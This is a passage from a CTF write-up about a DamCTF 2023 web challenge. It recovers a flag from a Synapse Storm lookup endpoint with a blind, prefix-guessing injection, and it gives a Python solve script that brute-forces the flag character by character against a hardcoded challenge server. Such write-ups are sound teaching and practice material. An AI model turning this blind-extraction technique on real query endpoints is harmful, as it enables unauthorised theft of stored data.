 I got fixated on my idea of exfiltrating `meta:event:summary` character by character wrongly assuming that I could get the flag quickly that way and somehow forgot the details of the `/admin` endpoint, which lead to a lot of time wasted. Lessons learned!

## Exfiltrating the flag

Now that we know that the flag is in the `it:dev:str` node, we can apply the same method we used for the event summary to exfiltrate the flag character by character, this time using the `^=` operator which [filters by prefix](https://synapse.docs.vertex.link/en/latest/synapse/userguides/storm_ref_filter.html#filter-by-prefix), since the flag likely starts with `dam{`. We can verify that by checking that the following lookup returns "sus" on remote:

```
00000* | it:dev:str ^= "dam{" #a
```

![](/assets/ctf/2023/damctf/web/thunderstruck/img/lookup-3.png)

The solve script is very similar to the previous one, again just like a blind SQL injection.

```python
import requests
import string

s = requests.Session()
base_url = 'http://157.230.188.90'

r = s.post(f'{base_url}/login', {
    'username': 'a',
    'password': 'a'
})

flag = 'dam{'
alphabet =  '}_' + string.digits + string.ascii_letters

while not flag.endswith('}'):

    for guess in alphabet:

        query = f'00000* | it:dev:str ^= "{flag + guess}" #'.ljust(128, 'a')

        r = s.post(f'{base_url}/lookup', {
            'query': query
        })
        assert('boi is safe' in r.text or 'sus indicator' in r.text)

        if 'sus indicator' in r.text:
            flag += guess
            print(flag)
            break
```

After some time, we finally get the flag!

```
dam{sq1_4nd_3xcel_ar3_w3ak_gr4phs_3re_fun}
```
